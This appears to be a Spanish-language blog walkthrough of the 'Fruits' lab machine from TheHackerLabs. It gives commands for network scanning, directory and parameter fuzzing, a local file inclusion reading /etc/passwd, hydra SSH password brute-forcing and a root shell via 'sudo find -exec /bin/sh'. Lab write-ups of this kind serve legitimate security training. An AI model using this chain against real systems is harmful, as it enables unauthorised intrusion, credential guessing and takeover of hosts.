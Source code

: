 ```yaml
---
layout: post
title: "Fruits"
date: 2024-06-03 13:05:23
category: sample
vm: hackerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Fruits </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/fruits/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Fruits/host.png){:.margin}

**1\.** Descubriendo dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Fruits/arp.png){:.margin}

**2\.** Escaneando puertos y servicios disponibles.

`sudo nmap -p- --open -sCV -T5 --min-rate=5000 192.168.1.5 -Pn -n`

![img](/notas/public/img/thehackerlabs/Fruits/nmap.png){:.margin}

**3\.** En la web tenemos un buscador, que me lleva a un php pero sin mas.

`http://192.168.1.5:80`

![img](/notas/public/img/thehackerlabs/Fruits/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/Fruits/80redirect.png){:.margin}

**4\.** Descubriendo directorios y archivos en el servidor web.

`gobuster dir -u http://192.168.1.5/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html -q`

![img](/notas/public/img/thehackerlabs/Fruits/gobuster.png){:.margin}

**5\.** Fuzzeando parametros para un LFI.

`wfuzz -c --hc=404 --hl=1 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt 'http://192.168.1.5/fruits.php?FUZZ=/etc/passwd' 2>/dev/null | grep -vE 'Target:|\*|Total'`

![img](/notas/public/img/thehackerlabs/Fruits/wfuzz.png){:.margin}

**6\.** Comprobando a que efectivamente se de un LFI.

`http://192.168.1.5/fruits.php?file=/etc/passwd`

![img](/notas/public/img/thehackerlabs/Fruits/etcpasswd.png){:.margin}

**7\.** Tengo dos usuarios disponibles en la maquina.

`view-source:http://192.168.1.5/fruits.php?file=/etc/passwd`

![img](/notas/public/img/thehackerlabs/Fruits/users.png){:.margin}

**8\.** Haciendo fuerza bruta al ssh.

`hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.5`

![img](/notas/public/img/thehackerlabs/Fruits/hydra.png){:.margin}

**9\.** Me conecto como usuario bananaman.

`ssh bananaman@192.168.1.5`

![img](/notas/public/img/thehackerlabs/Fruits/ssh.png){:.margin}

**10\.** Revisando permisos sudo.

`sudo -l`

![img](/notas/public/img/thehackerlabs/Fruits/sudol.png){:.margin}

**11\.** Escalando privilegios.

_\- Busco en [gtfobins](https://gtfobins.github.io/gtfobins/find/#sudo) la forma de escalar con este binario._

````sudo find . -exec /bin/sh \; -quit````

![img](/notas/public/img/thehackerlabs/Fruits/root.png){:.margin}


<br>

<span class="finish">_Finalizado._</span>